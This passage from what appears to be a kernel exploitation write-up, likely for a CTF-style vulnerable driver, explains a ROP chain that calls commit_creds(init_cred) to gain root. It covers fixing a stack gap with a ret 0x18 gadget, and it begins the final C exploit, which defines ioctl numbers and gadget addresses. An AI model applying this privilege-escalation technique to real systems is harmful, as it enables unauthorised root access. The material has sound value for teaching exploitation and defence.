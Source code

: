 Here’s what that looks like in GDB, right before hitting our first gadget:

![img](/images/firstgadget.png)

With full control over RIP and the stack now properly aligned to our spilled values, the ROP chain looks like this:

```
pop rdi; ret
init_cred
commit_creds
fork
msleep
```

At this stage, I encountered another issue: after placing `init_cred` into `rdi` and calling `commit_creds`, the function returns to the last gadget before the gap—causing a crash.

This is because there's a 24-byte gap between the values spilled into `r12` and `r10`, meaning the return path lands somewhere else.

To resolve this, instead of calling `commit_creds` directly after setting `rdi`, I inserted an extra `ret 0x18` gadget. This advances the stack by 0x18 bytes, skipping over the gap and correctly aligning the next return address.

Here’s how the stack looks right before the `ret 0x18` gadget is executed:

![img](/images/beforeret18.png)

The extra 8 bytes come from the ret instruction itself. After the stack is adjusted, we then jump to `commit_creds(init_cred)`, followed by `fork`.

For some reason, the fork gadget appears twice in the final chain instead of once followed by msleep, but it still worked as expected.

![img](/images/finalchain.png)

The final exploit:

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <unistd.h>

#define ALLOC 0x4008b900
#define FREE 0xb901
#define USE_READ 0x8001b902
#define USE_WRITE 0x4001b902

#define KADDR(x) kbase+(x-0xffffffffa2e00000)

#define INIT_CRED      KADDR(0xffffffffa4852fc0) 
#define COMMIT_CREDS   KADDR(0xffffffffa2eb9970)
#define POP_RDI        KADDR(0xffffffffa2e4b80d)
#define RET_1E0h       KADDR(0xffffffffa350ed2b)
#define RET_18h        KADDR(0xffffffffa2f2ef8a)
#define RET            KADDR(0xffffffffa2e00426)
#define MSLEEP         KADDR(0xffffffffa2f34bc0)
#define SYS_FORK       KADDR(0xffffffffa2e84ce0)

uint64_t kbase = 0;

```